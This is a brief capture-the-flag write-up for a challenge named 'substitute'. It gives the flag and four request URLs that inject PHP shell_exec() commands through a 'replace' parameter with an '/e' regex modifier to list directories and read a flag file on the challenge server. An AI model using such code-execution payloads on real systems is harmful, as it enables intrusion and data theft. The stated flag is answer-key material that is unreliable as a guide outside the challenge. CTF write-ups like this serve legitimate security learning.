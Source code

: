 ## substitute

**Flag: CTF{92b435bcd2f70aa18c38cee7749583d0adf178b2507222cf1c49ec95bd39054c}**

Get the existing files (`here_we_dont_have_flag index.php`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls")&vector=/Admin/e
```
Get the file type of `here_we_dont_have_flag` (`directory`):
```
http://35.198.90.23:30447/?replace=shell_exec("file here_we_dont_have_flag")&vector=/Admin/e
```
Get the files from `here_we_dont_have_flag` (`flag.txt`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls here_we_dont_have_flag/")&vector=/Admin/e
```
Get the flag:
```
http://35.198.90.23:30447/?replace=shell_exec("cat here_we_dont_have_flag/flag.txt")&vector=/Admin/e
```

[Back](../unbreakable.md)
